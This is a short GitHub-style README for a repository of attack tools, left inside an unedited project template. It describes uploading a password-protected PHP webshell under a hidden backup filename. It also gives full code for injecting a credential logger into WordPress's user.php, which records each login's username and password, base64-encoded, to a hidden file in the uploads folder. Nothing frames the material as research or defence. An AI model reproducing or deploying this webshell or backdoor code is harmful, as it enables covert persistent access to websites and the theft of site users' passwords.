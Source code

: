 # JustRepository

One Paragraph of project description goes here

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```

### Inject Wordpress

Inject user.php in wordpress to record credentials that login. Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php.

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                $credz = date('Y-m-d') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                $credz = date('Y-m-d') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.php.swp
```
